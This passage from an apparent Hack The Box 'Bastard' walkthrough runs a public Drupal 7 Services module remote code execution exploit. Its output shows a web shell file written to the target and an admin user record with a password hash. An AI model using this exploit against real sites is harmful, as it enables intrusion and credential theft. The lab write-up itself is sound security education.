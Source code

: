 ```text
php 41564.php 
```

We get an “ Uncaught Error: Call to undefined function curl\_init\(\)” error message. That’s because we don’t have _php-curl_ installed on our kali machine.

```text
apt-get install php-curl
```

Now the exploit should work.

```text
root@kali:~/Desktop/htb/bastard# php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: 10.10.10.9/dixuSOspsOUU.php
```

Perfect! It created two files: _session.json_ and _user.json_. View the content of _user.json_.

```text
root@kali:~/Desktop/htb/bastard# cat user.json 
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1581904913",
    "login": 1581908048,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
```
